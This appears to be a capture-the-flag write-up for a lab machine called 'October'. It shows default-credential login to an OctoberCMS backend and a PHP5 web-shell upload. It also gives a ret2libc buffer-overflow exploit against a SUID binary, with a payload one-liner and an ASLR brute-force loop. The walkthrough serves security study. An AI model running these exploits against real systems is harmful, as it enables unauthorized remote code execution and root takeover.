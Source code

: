 # October

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

We don't need to add anything into the hosts file.

### OctoberCMS

The website was running OctoberCMS and appears to have a default look:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Registering an account and trying to do stuff with it was useless and had no functionalities. So instead, we can abuse the fact that OctoberCMS is an open-source project. A quick Google search reveals that the backend of this is at `/backend`:

{% embed url="https://octobercms.com/forum/post/how-do-i-access-the-backend" %}

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

We can use the default credentials of `admin:admin`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

OctoberCMS has quite a few exploits:

{% embed url="https://www.exploit-db.com/exploits/41936" %}

We can use one of them to upload a `cmd.php5` file to execute on the server, as `php5` is not blocked on the server:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We can confirm we have RCE via `curl`.

<figure><img src="../../../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell is then trivial.

## Privilege Escalation

### Ret2Libc

I ran a LinPEAS scan on the machine, and found this weird SUID binary called `overflw`:

<figure><img src="../../../.gitbook/assets/image (35) (4).png" alt=""><figcaption></figcaption></figure>

I opened it up in Ghidra to view what it does:

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

It appears we have a classic BOF expliot to do here. The `strcpy` function is vulnerable, and the buffer is pretty short. Doing a `checksec` reveals that NX is enabled but PIE is disabled:

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

In this case, we can go for a Ret2Libc attack. First, we find the buffer size:

<figure><img src="../../../.gitbook/assets/image (38) (1).png" alt=""><figcaption></figcaption></figure>

Fixed at 112 it appears (same as length of `local_74`). Now, we can use `ldd` to find the address where `libc` is loaded on the machine:

<figure><img src="../../../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

Then we can simply execute the following commands to get the addresses we need

```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e " system@" -e " exit@"
strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"
```

Afterwards, we can use a python one-liner to print the contents of the payload:

{% code overflow="wrap" %}
```python
python2 -c 'print"\x90" * 112 + "\x10\x83\x62\xb7" + "\x60\xb2\x61\xb7" + "\xac\xab\x74\xb7"'
```
{% endcode %}

When run however, it didn't work on the machine. Turns out, the machine itself already had ASLR enabled, and this can be verified in `/proc/sys/kernel/randomize_va_space`. Also, when checking the addresses, it seems to randomly shift each time.

In this case, we can check the **range of addresses which ASLR spans**. In this case, the range of addreses looks rather small since `libc` is loaded at roughly the same location:

```
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc  
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b1000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb763b000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7606000)
www-data@october:/home/harry$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7626000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7591000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7624000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7558000)
www-data@october:/dev/shm$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7567000)
```

So, we can set up a `bash` script to keep looping until we get a successful exploit.&#x20;

{% code overflow="wrap" %}
```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
